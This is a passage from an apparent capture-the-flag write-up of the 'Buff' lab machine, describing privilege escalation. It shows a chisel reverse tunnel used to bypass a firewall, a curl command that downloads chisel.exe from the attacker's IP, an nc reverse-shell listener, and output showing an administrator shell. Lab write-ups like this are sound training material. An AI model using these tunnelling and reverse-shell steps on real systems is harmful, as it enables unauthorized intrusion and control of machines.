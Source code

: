 The second problem that we have is that python is not installed on the target and we cannot run the script remotely because the port 8888 is running behind the firewall. So, we need to find a way to run a python script without python and also to bypass the firewall. To do that, I like to use [chisel](https://github.com/jpillora/chisel).

Chisel allow us to create a tunnel between the target and the local machine, so we can forward the target port 8888 to our kali box. 

On my local machine, I used the port 9999 but any other port will works fine. 
{% highlight sh %}
chisel server --port 9999 --reverse
{% endhighlight %}

Then I uploaded chisel on the target and ran it like this.
{% highlight text %}
curl http://10.10.14.10/chisel.exe -o \tmp\chisel.exe
.\chisel.exe client 10.10.14.10:9999 R:8888:127.0.0.1:8888
{% endhighlight %}

So, now any packets that we receive on port 8888 will be forwarded to the target machine. 

Set up a listener.

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

Let's run our exploit now !

{% highlight sh %}
python root-exploit.py
{% endhighlight %}

{% highlight text %}
PS C:\Windows\system32> whoami
buff\administrator
{% endhighlight %}

<strong>Rooted ;)</strong>
